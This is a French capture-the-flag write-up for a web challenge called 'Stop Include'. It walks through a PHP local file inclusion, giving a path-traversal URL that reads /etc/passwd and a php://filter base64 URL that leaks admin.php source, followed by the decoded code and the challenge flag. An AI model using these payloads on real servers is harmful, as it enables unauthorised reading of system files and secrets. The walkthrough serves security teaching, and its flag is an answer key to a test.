


# Write up : Stop Include #

Catégorie :

```
Web
```

Consigne :

```
Trouvez un moyen d'accéder à la page admin.php.<p>

<FONT COLOR="#ff0000">Accès au site :<br>   <a href="http://game2.marshack.fr:8081" target="new">http://game2.marshack.fr:8081</a></FONT> <p>

```

Pièce jointe :

```
Aucune
```

Serveur :

```
game2
```

Points attribués :

```
20
```

Flag :

```
MARS{f1leInclud3B4siC}
```


Cette épreuve est un grand classique des vulnérabilités web.

Si l'on explore le site, on remarque que les différentes pages du sites sont incluses à l'aide de la fonction php 'include'.
On suppose donc que le paramètre include n'est pas protégé. Essayons donc de lire des fichiers via l'url suivante :

```
http://game2.marshack.fr:8081/?page=../../../../etc/passwd
```
Le résultat nous confirme que le paramètre n'est pas protégé et permet de lire n'importe quel fichier sur le système hôte.



Le but ici est de pouvoir se connecter à la partie administration, donc nous allons lire le fichier admin.php.

Sauf que si on l'inclut, il sera tout simplement éxécuté et nous ne pourrons pas le lire.
Pour cela, il est necessaire d'utiliser un filtre pour encoder la page que l'on veut inclure (en base64 par exemple).

Ceci est possible via l'url suivant :
````
http://game2.marshack.fr:8081/?page=php://filter/read=convert.base64-encode/resource=admin.php
````

Ce qui donne le résultat suivant:



Il suffit enfin de décoder le base64. Il est possible de le faire en ligne ou dans un terminal avec la commande suivante :

```bash
echo -n "PD9waHAKCSRwYXNzPSJNQVJTe2YxbGVJbmNsdWQzQjRzaUN9IjsKCWlmKGlzc2V0KCRfUE9TVFsncGFzc3dkJ10pKXsKCQlpZigkX1BPU1RbJ3Bhc3N3ZCddID09ICRwYXNzKXsKCQkJPz4KCQk8aDEgc3R5bGU9ImNvbG9yOmJsYWNrIj5GZWxpY2l0YXRpb24gdm91cyBwb3V2ZXogdmFsaWRlciBsZSBjaGFsbGVuZ2UgYXZlYyBjZSBtb3QgZGUgcGFzc2UgY29tbWUgZmxhZzwvaDE+CgkJCTw/cGhwCgkJfWVsc2V7CgkJPz4KCQkJPGZvcm0gbWV0aG9kPSJQT1NUIiBhY3Rpb24+CgkJCQk8aW5wdXQgdHlwZT0icGFzc3dvcmQiIG5hbWU9InBhc3N3ZCIvPgoJCQkJPGlucHV0IHR5cGU9InN1Ym1pdCIgdmFsdWU9ImxvZ2luIi8+CgkJCTwvZm9ybT4KCQk8P3BocAoJCX0JCgl9IGVsc2UgewoJCT8+CgoJCTxmb3JtIG1ldGhvZD0iUE9TVCIgYWN0aW9uPgoJCQk8aW5wdXQgdHlwZT0icGFzc3dvcmQiIG5hbWU9InBhc3N3ZCIvPgoJCQk8aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0ibG9naW4iLz4KCQk8L2Zvcm0+CgoJCTw/cGhwCgl9Cgo/Pgo=" | base64 -d
```

On obtient donc le flag  :

````php
<?php
	$pass="MARS{f1leInclud3B4siC}";       #  <==== Flag
	if(isset($_POST['passwd'])){
		if($_POST['passwd'] == $pass){
			?>
		<h1 style="color:black">Felicitation vous pouvez valider le challenge avec ce mot de passe comme flag</h1>
			<?php
		}else{
		?>
			<form method="POST" action>
				<input type="password" name="passwd"/>
				<input type="submit" value="login"/>
			</form>
		<?php
		}	
	} else {
		?>
		<form method="POST" action>
			<input type="password" name="passwd"/>
			<input type="submit" value="login"/>
		</form>
		<?php
	}
?>
````

Flag : MARS{f1leInclud3B4siC}